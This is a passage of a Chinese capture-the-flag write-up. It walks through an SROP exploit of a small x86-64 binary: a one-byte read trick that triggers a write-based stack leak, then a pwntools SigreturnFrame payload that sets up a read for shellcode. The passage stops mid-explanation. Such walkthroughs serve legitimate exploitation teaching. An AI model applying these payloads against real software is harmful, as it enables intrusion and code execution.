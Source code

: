 接下来程序再次会调用read函数（read的系统调用号为0，正好是xor rax rax的结果），因为这里的是read(0,$rsp,0x400)并且我们还要调用write函数，所以这次的read可不是乱来的~~，一鞭，两鞭.mp4~~：

```python
#gdb.attach(p,'b 0x4000b3')
p.send('\xb3')               #write(rdi==1,$rsi==$rsp,rdx==0x400)
```

如上所示，由于read的长度会到rax，并且write的系统调用号为1，这里只能选择读入一个字节，但是这个字节也不是随便乱输入的，来看一下此时的stack状况：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1623064168369-d73eca6e-f16f-4e49-b06a-d2ccaa8266cc.png)

如上图所示，断点断在了syscall，这里是向栈地址0x7fffffffdf98（栈顶rsp）中写入数据，而栈顶存放的是程序text段的地址，利用这一点我们向程序写入单字节'\xb3'，这样可以在下一次执行时跳过xor rax rax。接下来程序会执行write函数，因为由于程序中恰好存在一段gadget：

```python
mov rdi，rax
```

这使得刚刚read后的rax==1赋值给了rdi：rdi在64位传参顺序上起到重要作用（gcc）：当参数少于7个时， 参数从左到右放入寄存器: rdi, rsi, rdx, rcx, r8, r9，多余的参数会放入被压入到stack中，因此程序会执行：write(1($rdi),$rsp($rsi),0x400($rdx))：

> 这也就是之前说为什么第二种方式不好想到的原因。
>

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1623065395301-fdce5823-f1ed-4e31-8396-fbf7c30a053c.png)

这样就可以泄露出stack地址了：

```python
leak_stack_addr=u64(p.recv()[8:16]) #看这里切片的位置
print hex(leak_stack_addr)          #leak_stack_addr==0x7fffffffe20a
```

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1623065711887-44730a70-de50-44cf-acb8-643406383c97.png)

泄露出stack地址之后，我们开始布置read函数方便之后读入shellcode；到现在为止，程序仍会跳到start函数开头开始执行（包括xor rax,rax），执行之后rax==0之后会执行read(0,$rsp,0x400)向stack中读入以下内容：

```python
frame1=SigreturnFrame()
frame1.rax=constants.SYS_read
frame1.rdi=0x0               #arguments1
frame1.rsi=leak_stack_addr   #arguments2
frame1.rdx=0x400             #arguments3
                             #read(0,leak_stack_addr,0x400)
frame1.rsp=leak_stack_addr
frame1.rip=syscall_addr
payload3=p64(start_addr)+'a'*8+str(frame1)
p.send(payload3)
```

读入之前：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1623077170540-44847019-f532-4309-988f-cc783befa67b.png)

读入之后：
